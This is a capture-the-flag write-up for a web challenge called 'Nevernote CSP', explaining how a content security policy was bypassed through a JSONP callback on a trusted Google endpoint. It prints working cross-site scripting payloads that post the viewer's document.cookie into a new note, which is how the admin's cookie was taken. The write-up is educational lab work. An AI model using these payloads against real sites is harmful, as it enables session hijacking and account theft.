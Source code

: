 # Nevernote CSP

### Category: Web
__________________________



Given that the challenge prompt says that the cookie is in the admin's flag, is stands to reason that I'll need to create a note that instantly causes a user to post their cookies.
![Alt text](Images/nevernote4.png)

To start, I used command line injection to test what was allowed in the note content. 

~~~
<script>alert(123)</script>
~~~
gave the following error:
![Alt text](Images/nevernote3.png)

The content security policy (CSP) didn’t allow for inline script from an unknown source, but asp per the CSP rules in the response header, sites like `accounts.google.com` are fair game. This means I could use a callback. Callbacks are essentially functions used as arguments in other functions. By using another function from a trusted website to call our evil function, we effectively bypass the CSP! I crafted the following input:

~~~
<script src="https://accounts.google.com/o/oauth2/revoke?callback=$.ajax({
  type: 'POST',
  url: 'http://offsec-chalbroker.osiris.cyber.nyu.edu:12345/note/new',
  data: {'title': 'GOTCHA', 'content':document.cookie, 'submit':'save'}
});"></script>
~~~
Infuriatingly, this both worked and didn’t work. For all intents and purposes, I achieved my goal: users that see the note involuntarily post their cookie information for all to see, unfortunately, this worked on every account except for the admin! 
![Alt text](Images/nevernote5.png)

>After some digging, it appears that many sites don’t automatically allow admins to run ajax! Who knew?

Finally, a slightly simpler line of code did the trick. 
~~~
<script src="https://accounts.google.com/o/oauth2/revoke?callback=$.post('/note/new', { title: 'suckerz', content: document.cookie } );"></script>
~~~
![Alt text](Images/nevernote1.png)
Instead of ajax, I used post, reported the note, and retrieved the flag.

![Alt text](Images/nevernote2.png)
